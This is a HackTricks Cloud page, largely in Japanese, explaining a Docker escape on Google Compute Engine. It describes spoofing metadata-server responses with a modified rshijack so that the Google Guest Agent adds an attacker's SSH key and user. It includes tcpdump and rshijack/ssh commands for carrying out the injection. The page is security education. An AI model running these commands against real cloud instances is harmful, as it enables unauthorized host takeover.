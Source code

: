 # GCP - Network Docker Escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Initial State

この技術が指定されている両方の文書で、攻撃者はGCPによって管理されている**Docker**コンテナ内で**root**アクセスを取得することに成功し、ホストネットワークへのアクセス（および**`CAP_NET_ADMIN`**と**`CAP_NET_RAW`**の権限）を持っていました。

## Attack Explanation

Google Compute Engineインスタンスでは、ネットワークトラフィックの定期的な検査により、**メタデータインスタンス**への多数の**平文HTTPリクエスト**が明らかになります。オープンソースサービスである[**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent)は、頻繁にこのようなリクエストを行います。

このエージェントは**メタデータの変更を監視する**ように設計されています。特に、メタデータには**SSH公開鍵用のフィールド**が含まれています。新しい公開SSH鍵がメタデータに追加されると、エージェントは自動的にそれを`.authorized_key`ファイルに**認証**します。また、必要に応じて**新しいユーザーを作成**し、**sudoers**に追加することもあります。

エージェントは、**すべてのメタデータ値を再帰的に取得する**リクエストを送信することで変更を監視します（`GET /computeMetadata/v1/?recursive=true`）。このリクエストは、前回の取得以降にメタデータに変更があった場合のみ、メタデータサーバーが応答を送信するように設計されています。これはEtagによって識別されます（`wait_for_change=true&last_etag=`）。さらに、**タイムアウト**パラメータ（`timeout_sec=`）が含まれています。指定されたタイムアウト内に変更が発生しない場合、サーバーは**変更されていない値**で応答します。

このプロセスにより、**IMDS**（インスタンスメタデータサービス）は、構成変更が発生しなかった場合に**60秒後**に応答することができ、ゲストエージェントに対して**偽の構成応答を注入するための潜在的なウィンドウ**を作成します。

攻撃者は、**Man-in-the-Middle (MitM)攻撃**を実行し、IMDSサーバーからの応答を偽装し、**新しい公開鍵を挿入する**ことでこれを悪用できます。これにより、ホストへの不正なSSHアクセスが可能になります。

### Escape Technique

ARPスプーフィングはGoogle Compute Engineネットワークでは効果がありませんが、[**rshijackの修正版**](https://github.com/ezequielpereira/rshijack)を使用して、SSHユーザーを注入するためのパケット注入が可能です。この修正版は、[**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)によって開発されました。

このrshijackのバージョンでは、ACKおよびSEQ番号をコマンドライン引数として入力でき、実際のメタデータサーバーの応答の前に応答を偽装することが容易になります。さらに、[**小さなシェルスクリプト**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh)が使用され、**特別に作成されたペイロード**を返します。このペイロードは、Google Guest Agentに対して、`.authorized_keys`ファイルに指定された公開鍵を持つユーザー`wouter`を**作成する**ようにトリガーします。

スクリプトは同じETagを使用して、メタデータサーバーがGoogle Guest Agentに異なるメタデータ値を即座に通知しないようにし、応答を遅延させます。

スプーフィングを実行するには、次の手順が必要です。

1. **tcpdumpを使用してメタデータサーバーへのリクエストを監視する**:
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
次のような行を探してください:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. 正しいETAGを持つ偽のメタデータデータをrshijackに送信します:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
このステップは公開鍵を認証し、対応する秘密鍵を使用してSSH接続を可能にします。

## 参考文献

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
